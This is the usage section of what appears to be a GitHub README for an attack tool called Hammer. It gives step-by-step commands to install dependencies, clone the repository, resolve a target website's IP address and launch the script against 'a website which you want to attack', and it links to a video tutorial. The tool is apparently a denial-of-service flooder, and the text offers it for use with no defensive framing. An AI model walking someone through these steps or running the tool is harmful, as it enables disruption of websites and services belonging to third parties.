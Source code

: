 ## Usage:
```
$ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/Pavithran-R/Hammer/

Hammer need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
$ cd Hammer<br>
$ python3 hammer.py -s [ip Address] -t 135<br>
example:<br>
$ python3 hammer.py -s 123.45.67.89 -t 135<br>
```

Video Tutorial:
How to use Hammer [`Watch it`](http://www.youtube.com/watch?v=HVbRUhX2EPo)

